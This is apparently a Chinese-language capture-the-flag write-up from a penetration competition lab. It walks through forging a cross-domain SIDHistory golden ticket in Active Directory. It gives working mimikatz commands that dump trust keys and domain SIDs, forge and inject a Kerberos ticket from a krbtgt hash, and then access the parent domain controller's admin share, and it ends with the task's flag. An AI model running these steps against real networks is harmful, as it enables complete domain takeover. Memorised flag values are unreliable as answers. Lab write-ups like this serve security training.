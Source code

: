 ![image-20220528130010000000-1656056202161162.png](img/中小型企业环境网络安全渗透赛 local/621de59e8f7f041a24c58f6ff2c2d977.png)

##### 任务17：制作SIDHistory 版跨域黄金票据（T1559-进程间通信、T1134-操作访问令牌）

krbtgt上面操作中已获取，目前只需要获取两个域的sid即可

获取域的sid

```
c:\mimikatz.exe "privilege::debug"  "lsadump::trust /patch" "exit"

#Tips：
c:\mimikatz.exe    启动mimikatz
privilege::debug   提升权限
lsadump::trust /patch    指向分别为 域林和子域的SID以及双方的信任密钥
```

![image-20220528130026000000-1656056203842119.png](img/中小型企业环境网络安全渗透赛 local/665a623d3b969929b6d2693b952d0489.png)

获取到的域的sid

```
Current domain: BJ.JYJ.COM (BJ / S-1-5-21-2605018351-88321934-434902429)

Domain: JYJ.COM (JYJ / S-1-5-21-1075525281-2553060978-2115401271)
```

通过使用mimikatz ptt，即可跨到adlab

```
c:\mimikatz.exe "kerberos::golden /domain:BJ.JYJ.COM sids:S-1-5-21-2605018351-88321934-434902429 /sid:S-1-5-21-1075525281-2553060978-2115401271  /krbtgt:9c5b864fb3691b21e29e289027d26342 /user:jyj /ptt" exit 

 domain:当前子域，sid:当前子域SID，sids:信任域的SID，也就是父域，krbtgt:当前域的krbtgt的值，user是trust account，不确定可以使用dcsync在看下。
```

![image-20220528130040000000-1656056205469203.png](img/中小型企业环境网络安全渗透赛 local/28346034455ec4e2ad10b6ebaf4619b4.png)

建立 IPC 连接

随后net use等方式拿下jyj域的域控DC

```sh
net use \\dc1.jyj.com\c$
dir \\dc1.jyj.com\c$
```

![image-20220618175502000000-1656056207132766.png](img/中小型企业环境网络安全渗透赛 local/1ce465abe949d4e35e344c03bd649e92.png)

后续可通过计划任务上线

DC1主机的flag位置：`c:\Users\Administrator\Desktop\flag.txt`

```
flag{9710-42A0-3272-1A49-4A16-638C-30A4-85E8}
```

![image-20220624145445254105-1656056208782172.png](img/中小型企业环境网络安全渗透赛 local/2be56f1f813c6d66976efe1acf836a5b.png)